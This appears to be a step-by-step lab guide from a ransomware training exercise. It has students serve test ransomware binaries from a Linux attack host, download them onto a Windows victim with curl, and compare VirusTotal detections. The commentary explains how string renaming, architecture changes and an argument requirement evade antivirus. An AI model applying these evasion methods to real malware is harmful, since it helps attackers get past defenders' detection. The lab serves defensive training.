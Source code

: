 # Detection

## Host the "evil" files.

1. Make sure you are connected to the NIX-ATTACK-HOST-#
2. First record your IP address on the eth0 interface. `ip addr`
3. Now change directory into the notransomware directory.
4. Run the following command to serve the files for download.
`python3 -m http.server`

## Update Lab Files
1. Now it is time to swap to the WINDOWS-VICTIM-HOST. Press ctrl+shift+alt(command+ctrl+shift). Click the drop down in the top left of the side menu and select the WIN-VICTIM-HOST connection.
2. Open a administrative command prompt by clicking the search icon (magnifying glass) in the bottom left.
3. Type cmd and click on the command prompt desktop app icon when it appears.
4. Change directories to the lab files on the desktop. `cd c:\Users\Administrator\Desktop\rsac21-ransom`
5. Update the files from the git repo.  `git pull`

## Download the "evil" files.

1. Do some pre-flight checks, you can access all the required programs by clicking the search bar in the bottom left and typing their respective names. When they appear in the start menu results, double click them.
- Is a folder on the desktop called "rsac21-ransom" (If not, launch a command prompt and run `git clone `)
- Is firefox installed? (If not, launch a command prompt and run `choco install firefox`)
2. Open a command prompt by clicking the search icon in the bottom left and typing `cmd`. The 
4. Run the following command with my new favorite living off the land binary for dowloading remote files. 
`curl http://172.31.24.<last octet of your linux attack host>:8000/test1.exe -o test1.exe`
5. Once you have this worked out, download all the files you created on the linux attack host just changing the file names.
  - test1.exe
  - test264.exe
  - test232.exe
  - test332-arg.exe
7. This is your first detection example...no alerts from windows defender.

## What does virust total have to say about all this?

1. Open firefox and browse to virus total.  www.virustotal.com
2. Click the **choose a file** optiont to upload for analysis.
3. Browse to C:\Users\Administrator and select test1.exe.
4. Wait for the analysis. It will look something like this, but may have changed with all of the concurent uploads of a similar file.
> Remember this is was the file that you saved as is and compiled in the amd64 architecture. Having just 3 detections for what will effectively encrypt files in your homedrive and attempt to connect to a server, while dropping a key and ransom note is pretty scray in itself.
5. Now Click the upload button in the top left beside the search bar and upload the second sample test2.exe
> This was the sample you simply replaced all occurances of the word encrypt with another word. This now comes back with only 2 detections. Putting on show case that changing common words and text associated with malware inside binaries will trick a number of detections in iteslef. Not to mention this changes zero function of the binary while completely changing the hash.
6. Finally, upload the 32bit version of this sample. Same sample as before, but compliled for the more commonly execuable 32bit architecture.
> By nature of the architecture you will see many more detections now, many of the static and behavioral analysis tools are tuned toward 32bit binaires and instructions.
7. All that's great but now upload the final sample where you added the argument requirement for it to run. Test232-args.exe.
> You will notice nearly all the detections go away now, even in the 32bit architecture. All of that work spent on creating different types of anti analysis techiniques and simply adding an argument requirement will fool nearly every auto analysis capability out there, making the detection solely reliant on strings.

Let's return to talk about what just happened and get ready to move on to live reponse.


